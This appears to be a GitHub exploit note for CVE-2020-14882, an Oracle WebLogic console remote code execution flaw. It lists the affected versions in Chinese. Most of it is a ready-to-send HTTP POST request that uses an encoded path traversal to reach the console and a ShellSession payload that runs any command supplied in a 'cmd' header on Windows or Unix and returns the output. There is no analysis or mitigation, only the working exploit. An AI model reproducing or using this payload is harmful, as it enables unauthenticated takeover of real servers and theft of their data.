

# CVE-2020-14882 WebLogic Console RCE

影响版本：  
- Oracle WeblogicServer 10.3.6.0.0
- Oracle WeblogicServer 12.1.3.0.0
- Oracle WeblogicServer 12.2.1.3.0
- Oracle WeblogicServer 12.2.1.4.0
- Oracle WeblogicServer 14.1.1.0.0

exp:
```
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 1270.0.0.1:7001
cmd: echo "daxiong"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1258

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
    weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");
}executeThread.interrupt();
");
```





